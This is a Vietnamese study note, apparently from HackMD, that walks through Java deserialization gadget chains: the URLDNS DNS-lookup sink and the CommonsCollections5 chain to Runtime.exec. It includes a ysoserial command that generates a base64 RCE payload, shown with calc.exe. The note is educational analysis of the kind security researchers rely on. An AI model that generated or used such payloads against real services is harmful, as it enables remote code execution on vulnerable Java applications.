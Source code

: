 
Để ý `InetAddress addr = getHostAddress(u);` getHostAddress sẽ nhận url là host là key mà ta truyền vào 

``
  protected InetAddress getHostAddress(URL u) {
        return u.getHostAddress();
    }
``



![image](https://hackmd.io/_uploads/ryPNNiThA.png)


`hostAddress = InetAddress.getByName(host);` sẽ gọi đến method `getByName` với arg là host


![image](https://hackmd.io/_uploads/rJn94iT30.png)


và đây chính là sink của gadgetchain này mà chúng ta hướng đến thực hiện resolve dns với domain ta truyền vào.


## common colection5

`java -jar ysoserial-all.jar CommonsCollections5 "calc.exe" | base64 -w0`

- ở gadget này ta vẫn rce được nhưng thông qua các chain ở lib khác


/*
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()

	Requires:
		commons-collections
 */
 
 
 Có thể thấy ở đây đi từ BadAttributeValueExpException đến sink là Method.invoke -> ta cùng debug để xem qua trình run của nó
 